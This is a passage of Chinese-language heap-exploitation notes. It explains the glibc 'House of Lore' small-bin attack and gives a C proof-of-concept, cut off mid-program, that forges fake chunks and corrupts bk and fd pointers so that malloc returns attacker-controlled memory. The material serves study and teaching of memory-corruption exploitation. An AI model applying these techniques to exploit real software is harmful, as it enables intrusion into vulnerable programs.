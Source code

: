 
最后分配的 D 区域对 b2 块造成了覆盖

### House Of Lore

针对 small bins 的攻击

首先一个 small chunk 被释放到 small bin 中去

将 small chunk 的 bk 指向一个 fake small chunk

small bins 的管理方式是先进先出

两次 malloc() 之后,便会得到 fake small chunk

```C
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

struct small_chunk
{
    size_t prev_size;
    size_t size;
    struct small_chunk *fd;
    struct small_chunk *bk;
    char buf[0x64]; // chunk falls in smallbin size range
};

int main()
{
    struct small_chunk fake_chunk, another_fake_chunk;
    struct small_chunk *real_chunk;
    unsigned long long *ptr, *victim;
    int len;

    printf("%p\n", &fake_chunk);

    len = sizeof(struct small_chunk);

    // This chunk will go into unsorted bin
    ptr = malloc(len);
    printf("%p\n", ptr);

    // The second malloc can be of random size. We just want that
    // the first chunk does not merge with the top chunk on freeing
    printf("%p\n", malloc(len));
    free(ptr);

    real_chunk = (struct small_chunk *)(ptr - 2);
    printf("%p\n", real_chunk);

    // Grab another chunk with greater size so as to prevent getting back
    // the same one. Also, the previous chunk will now go from unsorted to
    // small bin
    printf("%p\n", malloc(len + 0x10));

    real_chunk->bk = &fake_chunk;
    fake_chunk.fd = real_chunk;

    fake_chunk.bk = &another_fake_chunk;
    another_fake_chunk.fd = &fake_chunk;

    // malloc real chunk
    printf("%p\n", malloc(len));

```